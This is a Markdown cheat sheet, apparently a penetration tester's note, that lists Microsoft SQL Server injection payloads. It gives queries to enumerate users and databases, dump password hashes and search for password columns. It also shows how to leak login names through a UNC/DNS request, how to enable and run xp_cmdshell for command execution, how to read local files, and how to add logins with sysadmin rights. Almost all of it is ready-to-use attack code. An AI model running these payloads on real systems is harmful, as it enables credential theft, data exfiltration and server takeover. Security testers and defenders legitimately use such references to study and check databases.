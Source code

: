 ```yaml
---
title: MSSQL Injection
category: Access
tags: [recon, exploit, webvuln, sql, payload, injection]
tools: ['myssql']
---
```


# MSSQL Injection

---

## References

- [Oracle](http://pentestmonkey.net/blog/oracle-sql-injection-cheat-sheet/)
- [MSSQL](http://pentestmonkey.net/blog/mssql-sql-injection-cheat-sheet/)
- [MySQL](http://pentestmonkey.net/blog/mysql-sql-injection-cheat-sheet/)
- [PostgreSQL](http://pentestmonkey.net/blog/postgres-sql-injection-cheat-sheet/)
- [Ingres](http://pentestmonkey.net/blog/ingres-sql-injection-cheat-sheet/)
- [DB2](http://pentestmonkey.net/blog/db2-sql-injection-cheat-sheet/)
- [Informix](http://pentestmonkey.net/blog/informix-sql-injection-cheat-sheet/)
- [MS Access](http://nibblesec.org/files/MSAccessSQLi/MSAccessSQLi.html)

---

## Enumeration

### Version
```sql
SELECT @@version;
```

### Current User
```sql
SELECT user_name();
SELECT system_user;
SELECT user;
SELECT loginame FROM master..sysprocesses WHERE spid = @@SPID;
```

### List Users
```sql
SELECT name FROM master..syslogins;
```

### Password Hashes (Privileged)
```sql
-- MSSQL 2000
SELECT name, password FROM master..sysxlogins;
SELECT name, master.dbo.fn_varbintohexstr(password) FROM master..sysxlogins;

-- MSSQL 2005+
SELECT name, password_hash FROM master.sys.sql_logins;
SELECT name + '-' + master.sys.fn_varbintohexstr(password_hash) FROM master.sys.sql_logins;
```

### Crack Hashes
MSSQL 2000 & 2005 use SHA1 — try:  
https://labs.portcullis.co.uk/application/phrasen-drescher/

### Current Database
```sql
SELECT DB_NAME();
```

### List Databases
```sql
SELECT name FROM master..sysdatabases;
SELECT DB_NAME(N); -- Where N = 0, 1, 2...
```

### List Tables
```sql
SELECT name FROM master..sysobjects WHERE xtype = 'U'; -- tables
SELECT name FROM master..sysobjects WHERE xtype = 'V'; -- views
```

### List Columns (in table)
```sql
SELECT name FROM syscolumns WHERE id = (SELECT id FROM sysobjects WHERE name = 'mytable');
```

### Find Tables by Column Name
```sql
SELECT sysobjects.name AS tablename, syscolumns.name AS columnname
FROM sysobjects JOIN syscolumns ON sysobjects.id = syscolumns.id
WHERE sysobjects.xtype = 'U' AND syscolumns.name LIKE '%PASSWORD%';
```

### Hostname/IP
```sql
SELECT HOST_NAME();
```

---

## Privilege Info

### Check Current Permissions
```sql
SELECT permission_name FROM fn_my_permissions(NULL, 'DATABASE');
SELECT permission_name FROM fn_my_permissions(NULL, 'SERVER');
SELECT permission_name FROM fn_my_permissions('master..syslogins', 'OBJECT');
SELECT permission_name FROM fn_my_permissions('sa', 'USER');
```

### Check Server Roles
```sql
SELECT is_srvrolemember('sysadmin');
SELECT is_srvrolemember('dbcreator');
-- repeat for bulkadmin, diskadmin, etc.
```

### List Users With Specific Roles
```sql
SELECT name FROM master..syslogins WHERE sysadmin = 1;
SELECT name FROM master..syslogins WHERE serveradmin = 1;
-- repeat for other roles...
```

---

## Functions and Tricks

### Select Nth Row
```sql
SELECT TOP 1 name
FROM (SELECT TOP 9 name FROM master..syslogins ORDER BY name ASC) sq
ORDER BY name DESC;
```

### Select Nth Char
```sql
SELECT SUBSTRING('abcd', 3, 1); -- returns 'c'
```

### Bitwise Ops
```sql
SELECT 6 & 2; -- returns 2
SELECT 6 & 1; -- returns 0
```

### ASCII/Char Conversion
```sql
SELECT CHAR(0x41); -- returns 'A'
SELECT ASCII('A'); -- returns 65
```

### Casting
```sql
SELECT CAST('1' AS int);
SELECT CAST(1 AS char);
```

### String Concat / Avoiding Quotes
```sql
SELECT 'A' + 'B'; -- AB
SELECT CHAR(65) + CHAR(66); -- AB
```

### Conditionals
```sql
IF (1=1) SELECT 1 ELSE SELECT 2;
SELECT CASE WHEN 1=1 THEN 1 ELSE 2 END;
```

---

## Delays & Exfil

### Time Delay
```sql
WAITFOR DELAY '0:0:5';
```

### Make DNS Requests (Blind exfil)
```sql
DECLARE @host VARCHAR(800);
SELECT @host = name FROM master..syslogins;
EXEC('master..xp_getfiledetails "\' + @host + 'c$\boot.ini"');
```

---

## System-Level Access (Privileged)

### Command Execution
```sql
EXEC xp_cmdshell 'net user';

-- If disabled (2005+):
EXEC sp_configure 'show advanced options', 1;
RECONFIGURE;
EXEC sp_configure 'xp_cmdshell', 1;
RECONFIGURE;
```

### Local File Access
```sql
CREATE TABLE mydata (line VARCHAR(8000));
BULK INSERT mydata FROM 'C:\boot.ini';
DROP TABLE mydata;
```

### Create Users / Grant Privileges
```sql
EXEC sp_addlogin 'user', 'pass';
EXEC sp_addsrvrolemember 'user', 'sysadmin';
```

### Drop User
```sql
EXEC sp_droplogin 'user';
```

### Locate DB Files
```sql
EXEC sp_helpdb master;
EXEC sp_helpdb pubs;
```

---

## Default/System DBs
- northwind
- model
- msdb
- pubs *(Not on SQL 2005)*
- tempdb